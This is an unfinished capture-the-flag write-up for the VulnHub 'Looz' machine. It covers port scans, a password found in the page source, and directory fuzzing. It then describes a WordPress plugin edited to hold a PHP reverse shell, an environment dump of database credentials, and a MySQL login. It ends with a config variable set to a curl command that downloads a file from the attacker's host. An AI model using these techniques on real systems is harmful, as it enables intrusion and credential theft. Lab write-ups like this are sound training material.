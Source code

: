 # Looz - Not completed

![image](https://user-images.githubusercontent.com/5285547/129017281-3bfca710-1e46-4e57-bac6-7a1926977155.png)

Room link: https://www.vulnhub.com/entry/looz-1,732/

## Enum

Nmap 

```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
3306/tcp open   mysql
8081/tcp open   blackice-icecap


PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:80:23:86:76:97:19:09:9d:50:b1:94:c9:8d:a5:0c (RSA)
|   256 3d:52:5e:29:fb:2f:29:e8:01:e4:5d:1b:a1:1e:f3:4b (ECDSA)
|_  256 f0:f4:77:dc:3d:53:c3:c5:35:82:87:a5:ba:57:b4:49 (ED25519)
80/tcp   open   http         nginx 1.18.0 (Ubuntu)
|_http-generator: Nicepage 3.15.3, nicepage.com
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
3306/tcp open   mysql        MySQL 5.5.5-10.5.10-MariaDB-1:10.5.10+maria~focal
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.5.10-MariaDB-1:10.5.10+maria~focal
|   Thread ID: 13
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, FoundRows, Support41Auth, ODBCClient, SupportsCompression, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Mt~Ae[v`^78Qpar;l3U6
|_  Auth Plugin Name: mysql_native_password
8081/tcp open   http         Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://jetty/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Port 80

Main Page

![image](https://user-images.githubusercontent.com/5285547/129017511-3631397f-2b74-4d52-8cae-d4ab8b2c36a4.png)

Looking at the sourcecode of the page we see a password for a user John.

![image](https://user-images.githubusercontent.com/5285547/129017594-fe58c1bc-9223-459b-ac24-11f5d28b88dd.png)

```
john:y0uC@n'tbr3akIT
```

## Port 8081

I only got redirected back to port 80, so tried to brute force the directories. 

```
ffuf -u http://192.168.1.121:8081/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

wp-admin                [Status: 301, Size: 324, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 327, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 326, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
```

Going to http://192.168.1.121/wp-admin redirected me to 

```
http://wp.looz.com/wp-login.php?redirect_to=http%3A%2F%2Fjetty%3A8081%2Fwp-admin%2F&reauth=1
```

Adding wp.looz.com to /etc/hosts I can then see the login page. 

After loggin in as john, I seen akismet plugin was editable so added a PHP reverse shell to the plugin and updated the file. 
Activatiing the pluing after gave me the shell back. 

Time to enumerate the system to see what we can find. 

env

```
PHP_EXTRA_CONFIGURE_ARGS=--with-apxs2 --disable-cgi
APACHE_CONFDIR=/etc/apache2
MYSQL_ENV_GPG_KEYS=177F4010FE56CA3336300305F1656F24C74CD1D8
HOSTNAME=a5610f5f2480
PHP_INI_DIR=/usr/local/etc/php
MYSQL_ENV_MARIADB_VERSION=1:10.5.10+maria~focal
SHLVL=0
PHP_EXTRA_BUILD_DEPS=apache2-dev
OLDPWD=/var/www
MYSQL_ENV_MYSQL_DATABASE=wpdb
PHP_LDFLAGS=-Wl,-O1 -pie
APACHE_RUN_DIR=/var/run/apache2
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_VERSION=7.4.20
APACHE_PID_FILE=/var/run/apache2/apache2.pid
GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
WORDPRESS_DB_PASSWORD=Ba2k3t
PHP_ASC_URL=https://www.php.net/distributions/php-7.4.20.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_URL=https://www.php.net/distributions/php-7.4.20.tar.xz
TERM=xterm
WORDPRESS_DB_USER=dbadmin
MYSQL_PORT_3306_TCP_ADDR=172.17.0.2
MYSQL_ENV_MYSQL_ROOT_PASSWORD=root-password
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MYSQL_ENV_GOSU_VERSION=1.12
MYSQL_PORT_3306_TCP_PORT=3306
APACHE_LOCK_DIR=/var/lock/apache2
MYSQL_PORT_3306_TCP_PROTO=tcp
LANG=C
MYSQL_ENV_MARIADB_MAJOR=10.5
WORDPRESS_DB_NAME=wpdb
APACHE_RUN_GROUP=www-data
APACHE_RUN_USER=www-data
MYSQL_PORT=tcp://172.17.0.2:3306
MYSQL_ENV_MYSQL_PASSWORD=Ba2k3t
APACHE_LOG_DIR=/var/log/apache2
MYSQL_PORT_3306_TCP=tcp://172.17.0.2:3306
MYSQL_NAME=/wpcontainer/mysql
PWD=/var/www/html
PHPIZE_DEPS=autoconf            dpkg-dev                file            g++             gcc             libc-dev  make             pkg-config              re2c
MYSQL_ENV_MYSQL_USER=dbadmin
PHP_SHA256=1fa46ca6790d780bf2cb48961df65f0ca3640c4533f0bca743cd61b71cb66335
APACHE_ENVVARS=/etc/apache2/envvars
```

Found creds in the env, which also points to being in a docker container. 

Mysql

```
mysql -u dbadmin -p 
Ba2k3t
```

![image](https://user-images.githubusercontent.com/5285547/129023470-f4468619-6842-469c-aead-75080c6feab6.png)

![image](https://user-images.githubusercontent.com/5285547/129023572-fb616155-d3d8-4bf5-ae59-5dc601f93ac3.png)



/usr/src/wordpress/wp-config-docker.php  
/var/www/html/wp-config-docker.php
/home/alatar/wordpress/html /var/www/html rw,relatime - ext4 /dev/mapper/ubuntu--vg-ubuntu--lv rw
/etc/ImageMagick-6/mime.xml
/usr/local/bin/docker-entrypoint.sh

172.17.0.2      mysql a9400b1a26c0 wordpressdb
172.17.0.3      a5610f5f2480

export WORDPRESS_CONFIG_EXTRA='curl 192.168.1.96/test -o /tmp/test'
